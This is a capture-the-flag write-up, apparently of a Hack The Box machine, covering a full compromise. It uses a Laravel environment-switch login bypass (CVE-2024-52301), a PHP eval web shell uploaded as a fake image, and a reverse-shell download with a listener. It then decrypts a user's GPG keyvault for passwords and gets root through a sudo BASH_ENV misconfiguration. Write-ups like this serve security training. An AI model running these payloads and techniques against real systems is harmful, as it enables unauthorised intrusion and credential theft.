 Let's scan the machine
```bash
sudo nmap -v -sC -sV 10.10.11.67 -oN ../nmap/initial
```
```Nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Save the Environment | environment.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's go to the website

![image](images/20250625181637.png)
<div style="page-break-after: always;"></div>

Scan for other directories
```bash
gobuster dir -u http://environment.htb/ --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![image](images/20250625182240.png)
If we go to the directory with code `405`, we will see the following:
![image](images/20250625182442.png)
![image](images/20250625182459.png)
Let's check deeper for the presence of `php, asp, aspx, jsp, html, htm` files:
```bash
dirsearch -u http://environment.htb
```
![image](images/20250628132501.png)

Let's try to log in and intercept the request

![image](images/20250628134042.png)

![image](images/20250628134112.png)

There is `&remember=False`. Let's try removing it and sending the request.

![image](images/20250628134206.png)

We can see that `remember` must be included in the request. Let's try leaving it, but instead of `True` or `False`, we'll write `111`.

![image](images/20250628134335.png)

![image](images/20250628134421.png)

There is an interesting block of code here that says `login directly as me in dev/local/preprod envs`. Further down in the code, it says that if the current environment in Laravel is `predprod`, the user automatically logs in with `user_id=1`. Let's try to find something about this on the internet.

![image](images/20250628134655.png)

![image](images/20250628134739.png)

We can see that this is `CVE-2024-52301`. Let's try to find `PoC` on `Github`:
![image](images/20250628134823.png)

This [repository](https://github.com/Nyamort/CVE-2024-52301) states that to change the current environment, you need to add `?--env=...` to the URL. In our case, we need to add `?--env=preprod`.

![image](images/20250628135142.png)

![image](images/20250628135151.png)

It is possible to upload an image to change the profile avatar. Let's try to upload an image and intercept the request:

![image](images/20250628141425.png)

We will also capture the request that loads the image when the profile is loaded:

![image](images/20250628141504.png)

>/storage/files/image.png

Let's try to load a PHP file:
```PHP
<?php eval($_GET[“cmd”]);?>
```

![image](images/20250628141706.png)

Let's change `Content-Type: application/x-php` to `Content-Type: image/jpg`, `filename=“eval-exploit.php”` to `filename=“eval-exploit.php.” ` and add some content before the PHP code to show that it is an image, for example `GIF89a`

![image](images/20250628141848.png)

![image](images/20250628141858.png)

Now let's go to the address and check if the PHP file works:
```USR
http://environment.htb/storage/files/eval-exploit.php?cmd=phpinfo();
```

![image](images/20250628142009.png)

Now let's try to download [reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php)

![image](images/20250628142143.png)

Start listening to the port and go to the URL to open the PHP file
```URL
http://environment.htb//storage/files/reverse-shell.php
```
```bash
sudo ncat -lvnp 4444
```
Find the first flag

![image](images/20250628142820.png)

Spawn a normal TTY:
```bash
python3 -c 'import pty,os,sys; pty.spawn(“/bin/bash”)'
```
Next, let's see what's interesting in `/var/www/`:

![image](images/20250628144405.png)

There is a hash for the user `Hish`:
```hash
$2y$12$------------------------------------------------------------------------------9ILcC7akZ.q641r1gi
```
In the home directory `Hish` there is a directory `backup`, which contains the file `keyvault.gpg`.

![image](images/20250628150620.png)

`.gpg` is an object in **OpenPGP** format. 

| Type                       | Description                                                                         | How to identify                                                                                                  |
| ------------------------- | ------------------------------------------------- ------------------------------- | ------------------------------------------------------------------- -------------------------------------------- |
| **Encrypted container** | Any file (zip, tar, txt, etc.) has been encrypted with someone's PGP key or password. | `file keyvault.gpg` outputs “data” or “PGP symmetric encrypted data” / “PGP public key encrypted session key”. |
| **Key vault**    | Contains the PGP key itself (public or private). | `gpg --list-packets keyvault.gpg` will show the `public key` / `secret key` packets. |
Let's look at the contents of the home directory `hish`:

![image](images/20250628150917.png)

There is a directory called `.gnupg`, which contains the **secret OpenPGP keys** of `hish` itself. When a file is encrypted with a user's public key, **only** the holder of their private key can decrypt it.
Copy this directory to `/tmp/mygpg` and change the access to this directory to `700` so that the directory is inaccessible to others; otherwise, it will refuse to work.
```bash
cp -r .gnupg /tmp/mygpg
```
```bash
chmod -R 700 /tmp/mygpg
```

![image](images/20250628152112.png)

Specify a new home directory for this directory and display the secret keys.
```bash
gpg --homedir /tmp/mygpg --list-secret-keys
```

![image](images/20250628152416.png)

The private key is indeed there and **without a passphrase**. Next, we will decrypt it and write the result to `/tmp/message.txt`:
```bash
gpg --homedir /tmp/mygpg --output /tmp/message.txt --decrypt /home/hish/backup/keyvault.gpg
```
The `keyvault.gpg` file was encrypted **with hish's public key** (or symmetrically with the same password that is already in the agent). GPG found the right secret key and decrypted it.

![image](images/20250628152708.png)

Now there are 3 passwords. Let's try to connect to `hish` via SSH:

![image](images/20250628151521.png)

The password is correct
```Password
ma-------@ster!!
```
Now let's see what commands a user with `sudo` can execute:
```bash
sudo -l
```

![image](images/20250628153308.png)

`sudo` resets almost all environment variables (`env_reset`), **but** an exception `env_keep+=“ENV BASH_ENV”` was left in sudoers.
`/usr/bin/systeminfo` is just a bash script.

![image](images/20250628153511.png)

Bash help says: if a script is run non-interactively **and there is `BASH_ENV` in the environment, bash executes the contents of the specified file before the script starts**. So, it is enough to replace `BASH_ENV` so that **your code is executed as root before the script starts running**.
Let's create a malicious script:
```bash
echo ‘bash -p’ > /tmp/rootme.sh
chmod +x /tmp/rootme.sh
```
Specify it in `BASH_ENV`:
```bash
export BASH_ENV=/tmp/rootme.sh
```
Run the authorized script:
```bash
sudo /usr/bin/systeminfo
```

![image](images/20250628153811.png)
